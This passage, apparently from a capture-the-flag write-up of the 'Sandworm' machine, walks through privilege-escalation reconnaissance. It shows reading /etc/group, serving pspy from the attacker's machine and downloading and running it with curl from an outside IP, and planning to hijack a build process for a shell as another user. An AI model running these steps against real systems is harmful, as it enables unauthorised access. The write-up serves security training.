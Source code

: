```bash
ls -hal /usr/local/bin/firejail
```

![Unable to execute firejail](/assets/img/Sandworm/Sandworm_10.png)

So here we could see that root could execute it and whoever is in the jailer group. We can check who is in the group by reading the **/etc/group** file.

```
cat /etc/group
```
This gave us the following group file. Large chunk of the file has been removed for brevity. But in the output below we can see that the jailer group had the **atlas** user in it.

```
sgx:x:119:
_ssh:x:114:
jailer:x:1002:atlas
mysql:x:120:
silentobserver:x:1001:
atlas:x:1000:
_laurel:x:997:
```

### Pivoting back to Atlas

So now we know we are aiming for the **atlas** user because thats the only one that is able to execute the privesc script. But while in the jail it was impossible to execute it so we need to get a shell as **atlas** without the jail. I started to check if there were any processes being ran by **atlas** automatically. I did this by download psspy onto the machine and watching the output for a while. I setup a webserver on my machine using python then downloaded the file using curl

Setup the server
```
python -m http.server 80
```

Download the psspy file

```bash
curl http://10.10.14.77/pspy64 -o pspy
```

Next make the binary executable and run it

```bash
chmod +x pspy
./pspy
```

After watching the ouptut for a little while we can see that the tipnet program was being build using the atlas user. If we are able to write to any of the files included in the building process it could mean that we can get a shell as atlas after it has been build.
